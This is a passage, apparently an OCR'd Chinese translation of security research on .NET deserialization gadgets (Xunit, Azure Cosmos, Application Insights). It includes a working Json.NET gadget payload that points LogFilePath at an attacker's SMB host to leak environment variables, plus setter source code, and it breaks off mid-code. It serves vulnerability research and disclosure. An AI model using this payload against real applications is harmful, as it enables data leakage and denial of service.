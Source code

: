 代码段 52 Xunit1AssemblyInfo 类

在 \[1\] 处，可以通过构造函数设置 `AssemblyFileName` 成员。

在 \[2\] 处，定义了 AssemblyPath 属性。它返回 AssemblyFileName 成员。

根据这一点，攻击者能够完全控制传递给 `Directory.SetCurrentDirectory` 方法的路径。当通过 gadget 传递 `C:\Users\Public\test` 路径时，当前路径将被设置为 `C:\Users\Public`（攻击者的路径被传递给 `Path.GetDirectoryName` 方法）。

#### 2.6 Microsoft Azure Cosmos – QueryPartitionProvider

此 gadget 在章节“不安全的序列化 – `Azure.Core QueryPartitionProvider` 序列化触发反序列化”的描述中，利用了本文后续部分描述的技术。

#### 2.7 Microsoft Application Insights - FileDiagnosticsTelemetryModule

目标类： `Microsoft.ApplicationInsights.Extensibility.Implementation.Tracing.FileDiagnosticsTelemetryModule`

适用的序列化器：`Json.Net`、`XamlReader`、`JavaScriptSerializer`、`MessagePack` 和可能的其他序列化器。

适用的 .NET 版本：.NET Framework（未验证 .NET>=5）

最新测试版本：2.21.0

效果：可以实现两种效果：

-   如果应用程序能够与攻击者的服务器建立 SMB 连接或攻击者能够枚举目标上的本地目录，则可以泄漏环境变量。
-   如果目标应用程序以 `SYSTEM/local admin` 特权运行，则可以通过创建目录实现拒绝服务。

小工具（Json.NET）：

```bash
{ 
"$type":"Microsoft.ApplicationInsights.Extensibility.Implementation.Tracing.FileD 
iagnosticsTelemetryModule, Microsoft.ApplicationInsights, Version=2.21.0.429,  
Culture=neutral, PublicKeyToken=31bf3856ad364e35", 
    "LogFilePath":"\\\\192.168.1.100\\%USERNAME%", 
    "LogFileName":"C:\\\\Users\\\\Public\\\\test\\\\test.txt" 
}
```

代码段 53 FileDiagnosticsTelemetryModule gadget

描述： `FileDiagnosticsTelemetryModule` 实现了一个不重要的公共无参数构造函数，我们的分析不应关注此构造函数。我们应该专注于 LogFileName 和 LogFilePath 属性的设置器：

```bash
public string LogFilePath 
{ 
    get 
    { 
        return this.logFilePath; 
    } 
    set 
    { 
        string filePath = Environment.ExpandEnvironmentVariables(value); // [1] 
        if (this.SetAndValidateLogsFolder(filePath, this.logFileName)) // [2] 
        { 
            this.logFilePath = filePath; 
        } 
    } 
} 

public string LogFileName 
{ 
    get 
    { 
        return this.logFileName; 
    } 
    set 
```